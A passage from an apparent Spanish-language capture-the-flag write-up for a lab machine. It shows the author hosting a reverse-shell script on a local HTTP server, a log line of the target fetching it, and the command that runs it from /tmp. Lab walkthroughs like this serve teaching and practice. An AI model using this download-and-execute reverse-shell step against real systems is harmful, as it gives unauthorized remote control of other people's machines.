 <p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura13.png">
</p>

No vemos una respuesta en la página web, pero si revisamos nuestro servidor, veremos que se descargó el script:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.10.200 - - [17/Jul/2025 18:57:18] "GET /revShell.sh HTTP/1.1" 200 -
```

Igual podemos verificar si se guardó el script donde indicamos:

<p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura14.png">
</p>

Y para ejecutarlo, utilizamos el comando **bash** más la ruta del script:
```bash
bash /tmp/revShell.sh
```
